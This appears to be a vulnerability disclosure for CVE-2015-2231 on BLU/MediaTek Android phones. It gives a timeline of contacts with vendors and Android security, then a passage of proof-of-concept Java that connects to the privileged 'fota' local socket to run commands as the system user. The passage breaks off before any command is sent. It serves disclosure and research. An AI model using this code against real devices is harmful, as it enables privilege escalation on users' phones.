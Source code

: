 ## Timeline
- 2015-03-01 Discovery
- 2015-03-05 Request Security Contact (BLU/Mediatek) 
             CVEs Requested 
- 2015-03-06 CVEs Assigned
- 2015-03-06 BLU responded "no security department available"
- 2015-03-09 Contact ADUPS
- 2015-03-09 Contact security@android.com
- 2015-03-10 Reply from security@android.com, assigned ANDROID-19679287
- 2015-05-01 Discussed vulnerability semi-publically at Qualcomm Mobile Security Summit
- 2015-05-17 Test accepted by Android Security Team to CTS to look for bad socket
- 2015-05-20 One last attempt to reach out to ADUPS/Mediatek
- 2015-05-21 Public release of doc
- 2015-05-22 MediaTek finally responds saying they where told by Google and it "should be all set"

## CVE-2015-2231 example code;
```
package diff.strazzere.blukit;

import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;

import android.net.LocalSocket;
import android.net.LocalSocketAddress;

/**
 * Send commands to fota service and get system uid execution
 *
 * @author tim strazzere <diff@lookout.com>
 */
public class BluSocket {

    private byte[] buf;
    private int buflen;

    private LocalSocket mSocket;
    private InputStream mIn;
    private OutputStream mOut;

    public BluSocket() {
        buflen = 0;
        buf = new byte[0x400];
    }

    public boolean connect() {
        mSocket = new LocalSocket();

        try {
            mSocket.connect(new LocalSocketAddress("fota", LocalSocketAddress.Namespace.RESERVED));
            mIn = mSocket.getInputStream();
            mOut = mSocket.getOutputStream();
            return true;
        } catch (IOException e) {
            e.printStackTrace();
        }

        return false;
    }

    public void disconnect() {
        if (mSocket != null) {
```